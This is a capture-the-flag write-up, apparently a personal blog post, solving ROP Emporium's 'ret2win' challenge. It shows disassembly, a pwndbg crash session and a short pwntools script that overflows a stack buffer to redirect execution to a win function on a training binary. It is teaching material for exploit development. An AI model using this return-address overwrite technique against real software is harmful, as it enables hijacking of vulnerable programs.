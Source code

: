 ```yaml
---
title: "ret2win [ROPEmporium]"
date: 2018-05-20 00:00:06 +0530
categories:
  - Write-ups
header:
  teaser: "https://i.imgur.com/FJ8LnvR.png"
tags:
  - ROPEmporium
  - ROP
excerpt: "Writeup for ret2win, problems in the ROP Emporium Problem Set"
---
```

Here's the [problem link]("https://ropemporium.com/challenge/ret2win.html").  
Here are the provided binaries:
[32bit](/assets/write-ups/ropemporium/ret2win/ret2win32), [64bit](/assets/write-ups/ropemporium/ret2win/ret2win)



```
Locate a method within the binary that you want to call and do so by
overwriting a saved return address on the stack.
```

Seems pretty easy.  
Since this chal is pretty straightforward, let's
start with the 32 bit one.
`objdump` tells us there is a `ret2win` function:
{% highlight nasm%}
080485f6 <pwnme>:
 80485f6:       55                      push   ebp
 80485f7:       89 e5                   mov    ebp,esp
 80485f9:       83 ec 28                sub    esp,0x28
 80485fc:       83 ec 04                sub    esp,0x4
                            ...
 8048653:       83 c4 10                add    esp,0x10
 8048656:       90                      nop
 8048657:       c9                      leave
 8048658:       c3                      ret

08048659 <ret2win>:
 8048659:       55                      push   ebp
 804865a:       89 e5                   mov    ebp,esp
 804865c:       83 ec 08                sub    esp,0x8
 804865f:       83 ec 0c                sub    esp,0xc
 8048662:       68 24 88 04 08          push   0x8048824
 8048667:       e8 94 fd ff ff          call   8048400 <printf@plt>
 804866c:       83 c4 10                add    esp,0x10
 804866f:       83 ec 0c                sub    esp,0xc
 8048672:       68 41 88 04 08          push   0x8048841
 8048677:       e8 b4 fd ff ff          call   8048430 <system@plt>
 804867c:       83 c4 10                add    esp,0x10
 804867f:       90                      nop
 8048680:       c9                      leave
 8048681:       c3                      ret
{% endhighlight %}

This is basically a `cat flag.txt` which needs to be jumped to.  
Let's run this:
```console
$ ./ret2win32
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

>
```

Let's do it:

<!--![](/assets/write-ups/ropemporium/ret2win/pwndbg.png)-->

{% highlight nasm%}
$ pwndbg ./ret2win32
Reading symbols from ./ret2win32...(no debugging symbols found)...done.
pwndbg: loaded 177 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
pwndbg> cyclic 50
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
pwndbg> r
Starting program: /home/kunal/Documents/CTF/ROPEMporiumAgain/ret2win/32bit/ret2win32
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────[ REGISTERS ]─────────────────────────────────────────
 EAX  0xffffc8e0 ◂— 0x61616161 ('aaaa')
 EBX  0x0
 ECX  0xf7f8889c ◂— 0x0
 EDX  0xffffc8e0 ◂— 0x61616161 ('aaaa')
 EDI  0xf7f87000 ◂— 0x1d9d6c
 ESI  0xf7f87000 ◂— 0x1d9d6c
 EBP  0x6161616b ('kaaa')
 ESP  0xffffc910 —▸ 0xf7fe006d ◂— jge    0xf7fe0077
 EIP  0x6161616c ('laaa')
──────────────────────────────────────────[ DISASM ]───────────────────────────────────────────
Invalid address 0x6161616c






───────────────────────────────────────────[ STACK ]───────────────────────────────────────────
00:0000│ esp  0xffffc910 —▸ 0xf7fe006d ◂— jge    0xf7fe0077
01:0004│      0xffffc914 —▸ 0xffffc930 ◂— 0x1
02:0008│      0xffffc918 ◂— 0x0
03:000c│      0xffffc91c —▸ 0xf7dc7b41 (__libc_start_main+241) ◂— add    esp, 0x10
04:0010│      0xffffc920 —▸ 0xf7f87000 ◂— 0x1d9d6c
... ↓
06:0018│      0xffffc928 ◂— 0x0
07:001c│      0xffffc92c —▸ 0xf7dc7b41 (__libc_start_main+241) ◂— add    esp, 0x10
─────────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────────
 ► f 0 6161616c
Program received signal SIGSEGV (fault address 0x6161616c)
pwndbg>

{% endhighlight %}

Find the offset to overwrite the saved `eip`:

```console
cyclic -l 0x6161616c
44
```

And write the corresponding address of our `ret2win` function (`0x08048659`) after the 44 byte padding:

{% highlight python %}
from pwn import *
context.update(arch='i386', os='linux')

binary = './ret2win32'
elf = ELF(binary)

win = elf.functions['ret2win'].address


with open('solve.txt', 'w') as f:
    f.write(cyclic(44))
    f.write(p32(win))

# p = process(binary)
# p.send(cyclic(44) + p32(win))
# p.interactive()
{% endhighlight %}

And finally get the flag:

```console
$ ./ret2win32 < solve.txt
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}
zsh: segmentation fault (core dumped)  ./ret2win32 < solve.txt
```

The 64bit version can be easily solved by simply changing the padding to
`40` and updating the `ret2win`'s address.
